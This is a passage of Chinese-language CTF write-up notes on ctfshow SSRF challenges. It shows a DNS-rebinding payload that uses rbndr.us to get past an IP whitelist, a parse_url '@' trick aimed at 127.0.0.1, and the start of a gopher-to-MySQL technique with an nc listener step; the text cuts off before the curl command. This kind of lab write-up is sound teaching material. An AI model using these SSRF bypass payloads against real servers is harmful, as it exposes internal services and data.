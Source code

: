 - 这里想让我的ip必须是54.87.54.87，这样我就没法拿到内网的数据

[https://lock.cmpxchg8b.com/rebinder.html?tdsourcetag=s_pctim_aiomsg](https://lock.cmpxchg8b.com/rebinder.html?tdsourcetag=s_pctim_aiomsg)

- 该网站可以给一个域名绑定两个ip，每次是哪个ip是随机的
- 这样我设置一个`54.87.54.87`和一个`127.0.0.1`，这就有几率绕过if，从而拿到数据

### ctfshow web 257

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675859244615-1177f6fb-e84b-4c0f-8539-60f73efad981.png#averageHue=%23fefefe&clientId=u3e1739e4-bb48-4&from=paste&height=293&id=u7c99c3c8&originHeight=585&originWidth=1335&originalType=binary&ratio=1&rotation=0&showTitle=false&size=55022&status=done&style=none&taskId=ue750d911-50c9-471a-a59f-79895c866c9&title=&width=667.5)

#### filter_var

- 过滤器
  :::info
  FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）。<br />FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）。<br />FILTER_FLAG_NO_PRIV_RANGE - 要求值不在 RFC 指定的私有范围 IP 内（ 192.168.0.1在这个范围）。<br />FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。
  :::

#### payload

- 这就要求得是合法ip，随便在那个网站上绑一个ip，和一个127.0.0.1
- 提交Payload`url=http://7f000001.7c7d1401.rbndr.us/flag.php`
- 浏览器在访问该域名时会随机的解析一种ip

## web 358(parse_url各个部分的含义)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1675860496362-9485be17-b712-42f2-8e1a-4715314a2e63.png#averageHue=%23fefefd&clientId=u3e1739e4-bb48-4&from=paste&height=127&id=ufb7b3c39&originHeight=253&originWidth=685&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27530&status=done&style=none&taskId=u69833120-985c-43bf-a79c-793f4923d7e&title=&width=342.5)

- 这里要求的格式是`http://ctf.xxxxxxshow`，中间可以是任意字符
- 由于解析后的host是@后的内容，path是/path的内容，query是?后的内容，构造Payload

`http://ctf.@127.0.0.1/flag.php?show`

## web 359(gopher打mysql)

### gohper

[Gopher协议在SSRF漏洞中的深入研究（附视频讲解）](https://zhuanlan.zhihu.com/p/112055947)

- gopher是Internet上一个非常有名的信息查找系统，它将Internet上的文件组织成某种索引，很方便地将用户从Internet的一处带到另一处。
- 使用tcp70端口。

#### gopher发送请求

- 首先nc启动监听,监听2333端口：

```shell
nc -lp 2333
```

- 使用curl发送http请求，命令为
